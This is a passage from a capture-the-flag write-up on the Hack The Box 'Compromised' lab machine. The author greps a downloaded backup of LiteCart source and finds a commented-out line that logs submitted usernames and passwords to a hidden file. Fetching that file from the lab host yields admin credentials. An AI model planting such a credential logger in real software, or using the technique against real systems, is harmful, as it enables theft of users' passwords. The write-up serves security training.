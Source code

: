 In the folder there was a file called a.tar.gz. So i downloaded it locally and i extracted all files content in a single file and than i searched the word password:

```
sh4ck@kali:~/Desktop/compromised_htb$ strings a.tar.gz > baff
                                                                
sh4ck@kali:~/Desktop/compromised_htb$ cat baff | grep password
      if (empty($user->data['id']) && empty($_POST['password'])) throw new Exception(language::translate('error_must_enter_password', 'You must enter a password'));
      if (!empty($_POST['password']) && empty($_POST['confirmed_password'])) throw new Exception(language::translate('error_must_enter_confirmed_password', 'You must confirm the password'));
      if (!empty($_POST['password']) && $_POST['password'] != $_POST['confirmed_password']) throw new Exception(language::translate('error_passwords_missmatch', 'The passwords did not match'));
        'password',
      if (!empty($_POST['password'])) $user->set_password($_POST['password']);
          <label><?php echo language::translate('title_new_password', 'New Password'); ?></label>
          <?php echo functions::form_draw_password_field('password', '', 'autocomplete="off"'); ?>
          <label><?php echo language::translate('title_confirm_password', 'Confirm Password'); ?></label>
          <?php echo functions::form_draw_password_field('confirmed_password', '', 'autocomplete="off"'); ?>
          case (substr($setting['function'], 0, 8) == 'password'):
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
```

I found an interesting line 

`//file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);` 

that suggested me that the file `log2301c9430d8593ae.txt` could contain credentials. 

Indeed, browsing `http://10.10.10.207/shop/admin/./.log2301c9430d8593ae.txt` i found admin credentials `User: admin Passwd: theNextGenSt0r3!~` :
 
![webapp admin creds](/assets/img/htb/compromised/admin-creds.png)

With these credentials i was able to logging in as admin so i could discover LiteCart version:
